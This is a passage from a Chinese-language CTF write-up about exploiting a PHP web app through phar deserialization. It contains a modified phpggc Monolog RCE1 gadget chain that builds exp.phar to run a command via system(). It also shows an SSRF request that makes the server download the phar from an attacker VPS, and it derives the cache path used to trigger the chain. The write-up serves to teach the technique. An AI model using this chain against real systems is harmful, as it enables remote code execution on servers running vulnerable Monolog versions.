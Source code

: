 发现可以成功利用。

### phar 反序列化
服务器能像其他任意服务器发出请求 + 应用本身存在任意文件包含漏洞，是不是就让你想起了 2017 年 hitcon 的 baby\^h-master-php，正是利用 phar 反序列化。

那么应该如何生成 payload? 在 `composer.json` 我们发现了 `"monolog/monolog": "^1.23"`，而在 `phpggc` 中正好有 1.23 版本的 payload(Monolog RCE1)。因此直接修改 `chain.php` 如下：

```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {
        $code = "/read_flag";
        @unlink('exp.phar');
        $p = new \Phar('exp.phar');
        $p->startBuffering();
        $p->setStub("<?php __HALT_COMPILER();?>");
        $p->addFromString("test.txt", "test");
        $p->setMetadata(new \Monolog\Handler\SyslogUdpHandler(new \Monolog\Handler\BufferHandler(['current', 'system'],[$code, 'level' => null])));
        $p->stopBuffering();
    }
}
```

运行后生成 exp.phar，放在 VPS 上，访问下载到服务器
```http
GET /?url=http://xxx.xxx.xxx.xxx/exp.phar
```

然后找到 cache 位置 
```php
# config/paths.php
define('TMP', ROOT . DS . 'tmp' . DS);
define('CACHE', TMP . 'cache' . DS);

# src/controller/PagesController.php
private function _cache_dir($key){
    $ip = $this->request->getEnv('REMOTE_ADDR');
    $index = sprintf('mycache/%s/%s/', $ip, $key);
    return CACHE . $index;
}

# 最终路径为 /tmp/cache/mycache/ip/md5($url)/body.cache
```
